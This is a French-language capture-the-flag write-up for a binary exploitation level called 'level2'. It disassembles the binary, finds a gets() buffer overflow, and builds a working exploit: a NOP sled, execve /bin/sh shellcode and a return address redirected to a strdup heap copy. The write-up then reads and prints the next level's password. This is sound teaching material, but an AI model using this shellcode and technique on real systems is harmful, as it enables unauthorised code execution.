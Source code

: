 # Level2

On observe un executable a la racine `level2`

```bash
$ ./level2
Hello World
Hello World

$ python -c 'print "A"*100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level2`

```bash
$ scp -P 4242 -r level2@192.168.56.102:/home/user/level2/level2 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level2
```

_resultat sauvegarde dans [source.md](source.md)_

On a assez de place pour effectuer un `Buffer Overflow`

Nous avons `76(src) + 4(EBP) = 80` de disponible

sachant que le shellcode fait `45` caracteres, il nous reste `80 - 45 = 35`

On se retrouve avec

```bash
$ python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'
```

Mais pour l'instant nous n'avons pas notre EIP qui pointe vers l'un des `\x90` et inferieur a `0xb0000000` car notre string est stocke sur la stack. Qui valide la condition `eax == 0xb0000000`.

On va se servir du `strdup(&src)` qui copy notre chaine de caractere en memoire.

Plus qua recuperer l'endroit a laquel strdup a ecrit.

```bash
$ gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) break *p+105
Breakpoint 1 at 0x804853d
(gdb) run <<< $(python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
...
Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008    134520840
```

Enfin nous pouvons ajouter l'adresse de retour du `strdup` qui pointe sur notre string mais pas sur la stack pour contourner le `if`

**Ne pas oublier de retourner l'adresse** `0x804a008 => "\x08\xa0\x04\x08"`

```bash
$ (python -c 'print "\x90"*35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08"'; cat ) | ./level2
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
Ctrl+D

level2:$ su level3
Password:

level3:$
```
